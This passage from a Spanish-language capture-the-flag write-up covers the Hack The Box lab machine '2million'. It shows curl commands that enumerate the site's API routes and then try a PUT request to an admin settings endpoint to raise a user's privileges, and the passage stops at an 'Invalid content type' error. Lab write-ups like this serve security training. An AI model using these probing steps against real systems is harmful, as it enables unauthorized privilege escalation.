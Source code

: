 A partir de este código podemos crear una cuenta.


## Intrusion a la máquina

Una vez que accedemos vemos que nos encontramos un enlace para regenerar nuestra vpn que nos lleva a un enlace sospechososutilizando la api es por ello que si hacemos una peticion curl hacia ese endpoint obtnemos varios enlaces interesantes

```shell
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie:PHPSESSID=d897e71qbsq1uhh8g116bvpb8t" | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Vemos que con el ultimo método podemos intentar cambiar los privilegios de un usuario mediante `PUT`

Es por ello que vamos a ir probando: 

```shell
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie:PHPSESSID=d897e71qbsq1uhh8g116bvpb8t" | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
```

